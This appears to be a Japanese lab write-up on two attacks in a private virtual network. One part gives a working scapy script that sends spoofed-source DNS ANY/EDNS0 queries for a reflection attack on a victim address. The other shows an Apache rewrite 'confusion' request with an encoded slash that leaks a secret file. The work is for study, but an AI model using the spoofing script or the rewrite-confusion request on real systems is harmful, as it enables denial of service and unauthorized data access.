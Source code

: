 # Q.3(DNS reflection)

ホストOS: Linux

仮想化管理: Virtual Machine Manager（libvirt + QEMU/KVM）

Virtul Machine Manager を使用します。

以下のようにIPアドレスをそれぞれのコンピュターに割り当てる

| 仮想マシン名 | IPアドレス | 用途 |
| --- | --- | --- |
| attacker | すでに割り当てられているものを使う(今回は 192.168.11.25) | scapy による ANY＋EDNS0 クエリ をする |
| victim | 192.168.11.100 | 被害者（偽装される） |
| dns-server | 192.168.11.53 | BIND9でDNSサーバーとして振る舞う。大量のTXT/Aを返す。  |

**２つのゲストOSは仮想ブリッジ `br0` で接続する。**

br0は下のコマンドで作成する。

```bash
sudo ip link add name br0 type bridge
sudo ip link set dev br0 up
sudo ip link set dev enp3s0 master br0  # enp3s0が物理NIC
```

Virtual Machine Manager側でゲストOSがbr0を使用するようにする。

DNSサーバーのシステムのインストールを行います。

```bash
sudo apt install bind9
sudo systemctl start named
```

そしてDNSサーバー側でドメイン takkesan.com に対するゾーンを追加し、大量のレコードが返るようにします。

/etc/bind/db.takkesan.com

```bash
$TTL    604800
@       IN      SOA     ns1.takkesan.com. admin.takkesan.com. (
                          2024052005 ; Serial
                          604800     ; Refresh
                          86400      ; Retry
                          2419200    ; Expire
                          604800 )   ; Negative Cache TTL
;

@       IN      NS      ns1.takkesan.com.
@       IN      A       192.168.11.53
ns1     IN      A       192.168.11.53
www     IN      A       192.168.11.53
mail    IN      A       192.168.11.53
@       IN      MX 10   mail.takkesan.com.

;
@ IN TXT "It was at dusk on a certain day. A lone servant was waiting for the rain to stop under the Rashomon gate."
@ IN TXT "Under the wide gate, there was no one except this man. Only a single cricket rested on a large pillar,"
@ IN TXT "partially stripped of red lacquer. Considering that Rashomon stood on Suzaku Avenue,"
@ IN TXT "there should have been two or three more people, wearing straw hats or soft eboshi,"
@ IN TXT "also waiting for the rain to stop. Yet, there was no one else but this man."
@ IN TXT "The reason was that, in the past two or three years, Kyoto had suffered from a series of disasters earthquakes, whirlwinds,"
@ IN TXT "fires, and famines. As a result, the decline of the city was beyond description. According to old records,"
@ IN TXT "people smashed Buddhist statues and altar fittings, stripping off their red lacquer and gold or silver leaf,"
@ IN TXT "then piled up the wooden remains on the roadside and sold them as firewood. With that being the state of the capital,"

host1    IN      A       192.0.2.0
host2    IN      A       192.0.2.1
host3    IN      A       192.0.2.2
host4    IN      A       192.0.2.3
host5    IN      A       192.0.2.4
host6    IN      A       192.0.2.5
host7    IN      A       192.0.2.6
host8    IN      A       192.0.2.7
```

/etc/bind/named.conf.local

```bash
zone "takkesan.com" {
    type master;
    file "/etc/bind/db.takkesan.com";
};
```

被害者側でポート53番を一応開けておきます。

```bash
sudo ufw allow 53/udp
```

攻撃者側でWiresharkを起動してbr0を選択します。

入力フィールドにdnsと入力してDNS関連の通信のみを表示するようにします。

攻撃者側で下記のスクリプトをrootで実行します。

```python
from scapy.all import *
import random
import time

def send_spoofed_dns_any_edns0(victim_ip, dns_server_ip, qname, count=5, interval=1.0):
    print(f"[+] Sending {count} spoofed DNS ANY queries with EDNS0 for '{qname}' from {victim_ip} to {dns_server_ip}")

    for i in range(count):
        transaction_id = random.randint(1, 65535) 
        sport=53
        # IP + UDPヘッダ
        ip = IP(src=victim_ip, dst=dns_server_ip)
        udp = UDP(sport=sport, dport=53)

        # DNSクエリ + EDNS0（OPT）レコード付き
        dns = DNS(
            id=transaction_id,
            rd=1,
            qd=DNSQR(qname=qname, qtype=255),  # qtype=255 → ANY
            ar=DNSRROPT(rclass=4096, rdlen=0)
        )

        pkt = ip / udp / dns

        print(f"[*] Sending packet {i+1}/{count} (TXID=0x{transaction_id:04x}, SPORT={sport})")
        send(pkt, verbose=0)
        time.sleep(interval)

# ====== 実行パラメータ ======
victim_ip = "192.168.11.100"       # 偽装された送信元IP（被害者）
dns_server_ip = "192.168.11.53"    # DNSサーバIP（攻撃対象）
domain = "takkesan.com"            # 問い合わせ対象ドメイン
send_count = 5                     # クエリ送信回数
send_interval = 0.5                # 送信間隔（秒）

# ====== 実行 ======
send_spoofed_dns_any_edns0(victim_ip, dns_server_ip, domain, count=send_count, interval=send_interval)
```

# 結果

通常の問い合わせの場合
![alt text](image-1.png)

IPアドレスを詐称して攻撃する場合
![alt text](image.png)

---

# Q.4 (Cofussion Attack)

バージョン: Apache HTTPサーバー 2.4.59
Docker: Docker version 28.1.1, build 4eba377327

httpd.conf
```bash
# User configuration
# 1) エンコードされたスラッシュを許可しデコードさせる
AllowEncodedSlashes On

# 2) 任意閲覧を許可するディレクトリ
<Directory "/var/user">
    Require all granted
</Directory>

# 3) 既存の RewriteRule はそのまま
RewriteEngine on
RewriteRule "^/user/(.+)$" "/var/user/$1/profile.yml"
```

## 結果

通常のリクエストとConfusion攻撃を利用したリクエストの両方を試した結果です。

```bash
curl http://localhost:8080/user/orange
    profile.yml

curl http://localhost:8080/user/orange%2Fsecret.yml%3F
    password: super_secret

curl http://localhost:8080/user/orange/secret.yml
    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>404 Not Found</title>
    </head><body>
    <h1>Not Found</h1>
    <p>The requested URL was not found on this server.</p>
    </body></html>
```